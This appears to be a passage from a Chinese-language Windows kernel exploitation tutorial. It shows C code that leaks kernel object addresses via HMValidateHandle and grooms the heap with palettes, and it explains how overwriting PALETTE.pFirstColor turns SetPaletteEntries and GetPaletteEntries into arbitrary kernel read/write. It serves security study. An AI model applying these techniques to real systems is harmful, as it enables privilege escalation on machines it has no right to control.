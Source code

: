 ```c

	pwd = (HWND)HMValidateHandle(hwnd, 1);

	ULONG ulClientDelta = *(ULONG*)((ULONG)pwd + 0x10) - (ULONG)pwd;

	ULONG TagCls = *(ULONG*)((ULONG)pwd + 0x64) - ulClientDelta;

	PALETTE_Address = *(ULONG*)((ULONG)TagCls + 0x50);

	//__asm int 3

	printf("TagCls:0x%p\n", TagCls);

	printf("TagWnd:0x%p\n", pwd);

	printf("PALETTE_Address:0x%p\n", PALETTE_Address);

	DestroyWindow(hwnd);

  //内存缩紧
  while (I <= 0x500){
      CreatePalette(Palette);
	    ++I;
  }

  //释放窗口类
  UnregisterClass(TEXT("case"), GetModuleHandleA(0));

  //地址泄露!
  HPAL = CreatePalette(Palette);

```



### 利用 Palette 进行任意地址读写

通过修改 PALETTE.pFirstColor 的指针后,则可使用
 SetPaletteEntries(HPALETTE Hpal,UINT iStartIndex,UINT nEntries,LPPALETTEENTRY lppe); 
函数进行任意地址写


SetPaletteEntries(HPALETTE,0,0x05,Entries)

参数 1 Hpal 为 CreatePalette 函数返回的调色板句柄

参数 2 iStartIndex 为 从 apalColors 数组中第几项开始写

参数 3 nEntries 为 到 apalColors 数组中第几项结束

参数 4 lppe 为 PALETTEENTRY 结构数组的指针,每项4字节,通过设置此参数来写入任意值

创建两个 PALETTE 结构,覆写 PALETTE.pFirstColor 指针后,可参考BITMAP的利用方法 获取无限制的 ARW Primitiver


使用
 GetPaletteEntries(HPALETTE Hpal,UINT iStartIndex,UINT nEntries,LPPALETTEENTRY lppe); 
函数进行任意地址读

GetPaletteEntries(HPALETTE,0,0x05,Entries)

参数 1 Hpal 为 CreatePalette 函数返回的调色板句柄

参数 2 iStartIndex 为 从 apalColors 数组中第几项开始读

参数 3 nEntries 为 到 apalColors 数组中第几项结束

参数 4 lppe 为 PALETTEENTRY 结构数组的指针,每项4字节,通过设置此参数来读取任意值

